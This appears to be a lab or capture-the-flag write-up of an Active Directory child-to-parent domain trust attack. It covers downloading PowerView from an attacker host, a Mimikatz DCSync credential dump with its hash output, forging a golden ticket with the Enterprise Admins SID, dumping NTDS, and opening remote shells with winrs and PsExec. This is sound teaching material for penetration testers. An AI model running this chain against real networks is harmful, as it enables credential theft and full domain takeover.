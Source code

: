 #### **Trust  Bidirectional**

To perform this attack after compromising a child domain, we need the following:

- The KRBTGT hash for the child domain
- The SID for the child domain
- The name of a target user in the child domain (does not need to exist!)
- The FQDN of the child domain.
- The SID of the Enterprise Admins group of the root domain.
- With this data collected, the attack can be performed with Mimikatz.

- **Trust Relationship** :
```sh
Invoke-WebRequest -Uri "http://10.8.3.12:8080/PowerView.ps1" -OutFile "C:\Users\administrator\Desktop\powerview.ps1"

Import-Module ./PowerView.ps1

Get-NetDomainTrust
```
Or : 
- Powershell Built-in cmdlet :
```powershell
([System.DirectoryServices.ActiveDirectory.Domain]::GetCurrentDomain()).GetAllTrustRelationships()
```

- The SID for the child domain and parents
```powershell
Get-DomainSID # Child
Get-DomainGroup -Domain trusted.vl -Identity "Enterprise Admins" \| select distinguishedname,objectsid`
```

- Also we can use **Mimikatz** :
```sh
lsadump::trust
```

In order for an attacker to grant themselves Enterprise Admin rights, they can simply add “-519” at the end of the Parent Domain’s Security Identifier (SID). This allows them to trick the system into recognizing their account as a member of the Enterprise Admins group, even though they are not actually part of it.

```sh
Current domain: LAB.TRUSTED.VL (LAB / S-1-5-21-2241985869-2159962460-1278545866)
Domain: TRUSTED.VL (TRUSTED / S-1-5-21-3576695518-347000760-3731839591-519)

```

- The KRBTGT hash for the child domain: using DCSync Attack :

 ```sh
 mimikatz # lsadump::dcsync /all /csv  
 ```
 - Result : 
 ```sh
[DC] 'lab.trusted.vl' will be the domain
[DC] 'labdc.lab.trusted.vl' will be the DC server
[DC] Exporting domain 'lab.trusted.vl'
1104    rsmith  30ef48d2054363df9244bc0d476e93dd        66048
502     krbtgt  c7a03c565c68c6fac5f8913fab576ebd        514
1106    ewalters        56d93bd5a8250652c7430a4467a8540a        66048
500     Administrator   75878369ad33f35b7070ca854100bc07        66048
1107    cpowers 322db798a55f85f09b3d61b976a13c43        66048
1000    LABDC$  c101e5fcd553128d23a62df1c509a576        532480
1103    TRUSTED$        182161c2718e1d45b2202d6e35a7eb6e        2080
```

 - Creating Golden ticket : 
 ```sh
mimikatz # kerberos::golden /user:Administrator /domain:LAB.TRUSTED.VL /sid:S-1-5-21-2241985869-2159962460-1278545866 /krbtgt:c7a03c565c68c6fac5f8913fab576ebd /sids:S-1-5-21-3576695518-347000760-3731839591-519 /ptt
```

- Dump NTDS : 
```SH
lsadump::dcsync /domain:trusted.vl /dc:trusteddc.trusted.vl /all
#Then connect with the hash win evil-winrm
```
or 
Without ptt :
 ```sh
mimikatz # kerberos::golden /user:Administrator /domain:LAB.TRUSTED.VL /sid:S-1-5-21-2241985869-2159962460-1278545866 /krbtgt:c7a03c565c68c6fac5f8913fab576ebd /sids:S-1-5-21-3576695518-347000760-3731839591-519 
```
- Load the ticket to get the shell on root domain trusteddc.trusted.vl

```sh
mimikatz: kerberos::ptt ticket.kirbi
```

```sh
winrs -r:trusteddc.trusted.vl cmd
/
Enter-PSSession trusteddc.trusted.vl
```
Other option:  

Execute a cmd in the remote machine with [PsExec](https://docs.microsoft.com/en-us/sysinternals/downloads/psexec):

```shell
.\PsExec.exe -accepteula \\<remote_hostname> cmd
```